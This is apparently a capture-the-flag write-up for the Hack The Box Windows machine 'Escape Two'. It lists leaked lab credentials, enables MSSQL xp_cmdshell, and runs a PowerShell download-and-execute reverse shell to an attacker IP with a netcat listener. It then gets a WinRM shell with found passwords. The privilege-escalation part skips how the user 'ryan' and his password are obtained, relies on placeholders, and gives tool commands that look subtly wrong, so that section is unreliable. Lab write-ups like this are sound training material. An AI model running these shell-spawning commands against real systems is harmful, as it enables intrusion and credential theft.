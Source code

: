 ```yaml
---
title : "Escape Two"
date : 2025-05-24
categories : ["HTB"]
tags : ["HTB","escape_two"]
image:
        path: assets/lib/HTB/escape-two.png
---
```



Os:Windows
Mode:Easy
### Initial Enumeration

We start the box with the provided credentials:  
**Username:** `rose`  
**Password:** `KxEPkKe6R8su`

---

## Initial Recon — Nmap Scan

Run a comprehensive port scan with version detection and scripts.

```bash
nmap -sC -sV -p- sequel.htb
```

**Output snippet:**

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 10.0.14393
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-03 12:00:00Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds  Windows Server 2016 Standard 14393 microsoft-ds
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2016
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Global Catalog)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
```

---

## Access SMB Shares Using Provided Credentials

Given credentials:

* Username: `rose`
* Password: `KxEPkKe6R8su`

Enumerate SMB shares:

```bash
smbclient -L //sequel.htb -U rose
```

**Output:**

```
Sharename       Type      Comment
-------------   ----      -------
Accounting      Disk      Accounting Department Files
Documents       Disk      User Documents
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

Access `Accounting` share:

```bash
smbclient //sequel.htb/Accounting -U rose
```

Download suspicious files, e.g., `accounts.xlsx`:

```bash
get accounts.xlsx
```

---

## Extract Credentials from `accounts.xlsx`

Open `accounts.xlsx` locally. It contains usernames and passwords.

**Relevant entry:**

| Username                              | Password        |
| ------------------------------------- | --------------- |
| [sa@sequel.htb](mailto:sa@sequel.htb) | MSSQLP\@ssw0rd! |

This is the SQL Server Administrator account.

---

## Connect to MSSQL Server with `sa` Account

Use Impacket's mssqlclient tool:

```bash
impacket-mssqlclient sa@sequel.htb -windows-auth
```

When prompted, enter password: `MSSQLP@ssw0rd!`

**Connection confirmation:**

```
[*] Connecting to MSSQL server sequel.htb:1433 as user 'sa'
1> SELECT @@VERSION;
2> GO

Microsoft SQL Server 2016 (SP1-CU4) (KB3194713) - 13.0.4422.0 (X64)
```

---

## Enable `xp_cmdshell` for Command Execution

Run SQL commands to enable the extended stored procedure:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

---

## Spawn a Reverse Shell via `xp_cmdshell`

Host a PowerShell reverse shell script on your machine:

```bash
python3 -m http.server 8000
```

Use this command in MSSQL to download and execute it:

```sql
EXEC xp_cmdshell 'powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.5:8000/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 4444"';
```

On your attacking machine, listen with:

```bash
nc -lvnp 4444
```

**Upon success:**

```
Connection from 10.129.181.136:49156
Windows PowerShell
PS C:\Program Files\Microsoft SQL Server\MSSQL13.MSSQLSERVER\MSSQL\Binn>
```

---

## Enumerate for Additional Credentials

Look for configuration files:

```powershell
dir C:\ -Recurse -Include *.ini,*.config,*.txt -ErrorAction SilentlyContinue
```

Find `sql-Configurations.INI`:

```powershell
type C:\SqL2019\ExpressAdv_ENU\sql-Configurations.INI
```

**File content:**

```
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
```

Password for service account `sql_svc`.

---

## Login with Service Account via WinRM

Try WinRM with discovered creds:

```bash
evil-winrm -i sequel.htb -u sql_svc -p WqSZAF6CysDQbGb3
```

**Successful login:**

```
Evil-WinRM shell v3.5
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sql_svc\Documents>
```

Check for user flag:

```powershell
type C:\Users\sql_svc\Desktop\user.txt
```

---

## Privilege Escalation via ACL Manipulation

Enumerate permissions with BloodHound or SharpHound. Identify `ryan` user can modify ACLs on `ca_svc` account.

Use Impacket DACLS editing tool:

```bash
impacket-daclsedit sequel.htb/ -action write -rights FullControl -principal ryan -target ca_svc -u ryan -p <ryan_password>
```

---

## Request Certificate for `ca_svc` Using Certipy

Leverage modified ACL to request a certificate impersonating `ca_svc` with `Certipy`.

```bash
certipy enroll -u ca_svc -p <password> -domain sequel.htb -dc sequel.htb -template Machine
```

Export the certificate and use it for authentication, escalating to Domain Admin.

---

## Capture Domain Administrator Flag

With domain admin privileges, navigate to the administrator’s desktop:

```powershell
type C:\Users\Administrator\Desktop\root.txt
```

